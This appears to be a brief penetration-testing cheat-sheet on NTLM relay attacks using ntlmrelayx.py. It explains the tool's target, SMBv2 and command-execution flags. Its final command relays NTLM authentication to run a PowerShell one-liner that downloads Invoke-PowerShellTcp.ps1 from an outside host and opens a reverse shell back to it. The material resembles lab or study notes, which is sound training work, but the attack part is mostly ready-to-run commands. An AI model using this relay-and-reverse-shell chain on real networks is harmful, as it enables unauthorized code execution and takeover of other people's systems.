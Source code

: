 used in NTLM relay attacks


| flags          | Discription                                                                     |
| -------------- | ------------------------------------------------------------------------------- |
| `-t`<br>`-tf`  | specifies a single relay target<br>specifies a file with multiple relay targets |
| `-smb2support` | provides SMBv2 support for hosts requiring it                                   |
| `-c`           | Command To Execute, and the commands will be executed via `SMB`.                |


### Start relaying
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```

### Command execute using relaying
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```